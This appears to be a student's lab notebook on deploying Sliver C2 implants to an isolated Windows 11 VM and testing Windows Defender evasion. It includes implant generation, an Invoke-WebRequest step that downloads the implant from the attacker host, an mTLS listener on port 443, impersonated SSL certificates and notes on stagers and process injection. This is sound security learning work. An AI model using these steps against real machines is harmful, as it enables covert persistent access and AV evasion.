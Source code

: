 ## Our work assumes post-exploitation

### Notes for things I learned through the process:
- A C2 is only useful after an attacker has **already** compromised a target machine, and is able to traverse through the target to set up the implant for the C2 framework. This is because a C2 is only used to ensure future long-term access without needing to exploit the target each time.
- The implant must be running for the listener on the C2 server to connect to it.
- Windows Defender will detect implants and block them from running (this could be something to look at).
- Persistence: we need a way for the implant to keep running even after reboots or something else that causes it to stop.
- An implant that reconnects after reboots is essentially a backdoor. C2s relies on implants/backdoors but a backdoor does not necessarily involve a C2.
- Windows Defender is an AV, not a full EDR system.
- For Sliver, there are session implants and beacon implants. Session implants maintain a persistent connection, are ready to go, and are less stealthy. Beacon implants check in periodically, making them the stealthier option.
- Some terminiology:
- Listener: Used to listen for stager to call back at which point it will send the rest of the payload. https://www.thezentester.com/sliver-c2-staged-implants/
- Stage Listener: Used to deliever the stager
- use `jobs` in sliver to see existing listeners
- use `profiles` to see profiles
- Session implant: provides persistent access. Constantly in communication, essentially an active reverse shell.
- Beacon implant: checks in periodically for new commands, less noisy.
- Why build a custom payload? The simple answer is if its well known in the offensive space, then its most likely well known in the defensive space as well, including to EDR and AV vendors. Payloads created with default setups will usually be able to be picked up by security solutions almost instantly. An example of this is to create a default msfvenom payload yourself then try to place it on your Windows desktop (or a windows VM if you're using another OS) with Defender ON. https://redheadsec.tech/building-a-simple-custom-implant-for-sliver-shellcode/
- But normally staged payloads are preferable as it allows for a smaller footprint for AV to hit on when they are loaded on to the system.
  
---

### Feb 14
I decided to use Windows 11 image for victim machine due to its wide usage in the world. Virtual machine so that it is in a controlled environment. I also changed the victim machine (w11vi) network settings to "Host-Only" by changing the Adapter to Host-Only Adapter. This is to keep the VM offline but open to C2 communication. I wanted to keep the VM offline because Caeland brought to my awareness that connecting the victim device to the internet opens it up to attacks from actual attackers and that may affect my host machine, which I didn't want. So by setting my victim's machine IP to 192.168.56.100 (192.168.56.x range since subnet mask is (255.255.255.0 (/24)) ) and its default gateway to 192.168.56.1 (my host IP), so that the host (C2 server) and victim can communicate.

---

### Setting up Sliver
1. Clone this repo: `git clone --recursive https://github.com/ChamberZ1/Sliver.git`
2. Build Sliver: `cd sliver && make`
   
---

### Feb 17
Testing out Sliver, I first ran the server: `sudo ./sliver-server`. I created an implant using `generate --mtls 192.168.56.1`, where:
- `--mtls` specifies to use Mutual TLS encryption for communication. From the Sliver documentation: "you must specify at least one C2 endpoint using `--mtls`, `--wg`, `--http`, or `--dns`." It is recommended to use `--mtls` or `--wg` where possible 
- Note: `192.168.56.1` is not my internet IP, but the IP of the VirtualBox Host-Only Adapter which acts as a gateway for the Linux (Host) machine and Windows (Victim) virtual machine to communicate.

The implant was saved to `/home/charlitos/sliver/`. I created an HTTP server using `python3 -m http.server 8080` to send the file to the Windows machine. I used `Invoke-WebRequest -Uri http://192.168.56.1:8080/implant_name.exe C:\Users\Public\any_name.exe` to receive the file on the Windows machine. However, Windows Defender was blocking it and so I temporarily disabled Windows Defender. Then, I ran the implant `any_name.exe` and went back to Sliver on the host device.

I set up a listener on Sliver using `mtls --lhost 192.168.56.1 --lport 443`. I used port 443 to try and blend in with normal internet traffic. 

I had to change some firewall permissions on my Linux device (specifically port 443 and 8080 from 192.168.56.100) to allow communication and file transfer between host and victim machine.

So it worked, I was able to execute commands on the victim machine, and open the shell to do more. I did receive a warning regarding "bad OPSEC" when I opened a shell. This basically means that what I did was easily detectable, so that's something I could look into.

Also, the implant works only as long as it is a running process. 

---

### Feb 28
My Objective now is to modify the implant in some way to get it onto the Windows machine without Defender noticing. If we can do that, we will then see if we can hit Defender with something to get it to let default implants to slip by.

So far, we are able to transfer the file onto Windows without Defender flagging it as long as it is zipped or using upx.

Modifying the implant: 
- I attempted to `echo "rndmdata123" >> implant.exe`, *insert reason and what this does*, this did not work.

### March 4
Updates:
I'm going through a bunch of websites and blogs to see how others are doing this. Plan is to use stagers
Installed Metasploit to get SSL cert and key to encrypt the communication between the stager and listener when it is retrieving the implant, so that AV doesn't detect it. 
I generate a certificate in PEM format using a module by Chris John Riley called impersonate_ssl that will generate one based on the information it gathers from the certificate of a website specified in the RHOST parameter of the module. This makes the cert look legitimate. In the example I follow, they use Google's SSL cert as the base for the fake cert. 
https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8
https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation
 
Notes:

$ generate beacon --mtls -e
Generate beacon implant, using --mtls, -e for including evasion techniques
GOT FLAGGED

Base64 Encoding:
$ base64 implant. exe > implant.b64
> certutil -decode implant.b64 implant.exe
GOT FLAGGED

Zip Files:
GOT FLAGGED

Encrypted Zip File:
DID NOT GET FLAGGED UPON EXTRACTION

FTP:
Chose not to proceed because it required modifying Firewall settings to allow File Transfer Program to run properly. (See FTP image.png in pictures).
"I would avoid modifying the Windows Firewall unless absolutely necessary. Any firewall rule changes could leave forensic traces, making detection more likely. Instead, I would use more covert methods to transfer and execute the implant."

---

Stagers and Process injection:
A stager is a small initial payload that retrieves a larger payload (a Sliver implant) from a remote C2 server. It acts as a first-stage loader that downloads and executes the actual malware. 

Process injection is a technique where malicious code is injected into a legitimate process (like explorer.exe or notepad.exe) so that the implant runs inside the trusted process instead of creating its own malicious-looking process.

Process injection itself won't bypass Windows Defender, but it makes detection harder. Whether Windows Defender catches the Sliver implant depends on how the stager and beacon are delivered and executed.

"Sliver implants provide some basic obfuscation but they are not designed for AV or EDR evasion." https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/

---

Executing in Memory:
This means running code without writing it to disk. Instead of saving a file like .exe to the system and then running (Disk-based execution), the code is loaded directly into memory (RAM) and executed from there. This is a common evasion technique.

Can be detected by Memory-based monitoring.

Often used with processing injection to evade detection.

### March 6
Continuing off from March 4 work:
Followed the darkoperator article for the most part. Hit some roadblocks due to different metasploit versions operating differently. For example, the example used `use exploit/multi/handler` and `set HANDLERSSLCERT <path to PEM file>`. However, my version did not have `HANDLERSSLCERT`. 

I did some research to learn about why this article is useful.
Reverse shells using HTTP or HTTPS can be detected easily when security tools inspect traffic. SSL is used to encrypt traffic between target machine and the attacker listener, making it harder for defense systems to inspect payloads. An SSL certificate ensures that only the intended endpoints have access to the traffic (attacker and victim). Impersonated certificates help cloak the traffic as legitimate traffic. However, security tools have improved over the years and this method is not as effective as it once was. 

Using mTLS authenticates both sides for better security. It sort of acts as an assurance for the attacker that it is communicating with the target and not some defense system.

---

### March 16
Creating a custom c2profile: `sliver > c2profiles generate -f /home/charlitos/sliver/uris.txt -n custom-c2profile -i`. This defines trasnport behavior and how the implant communicates. This is different from `profiles new ...`,  which creates a profile that is used when generating an implant, which dictates how the implant itself shoudl behave.

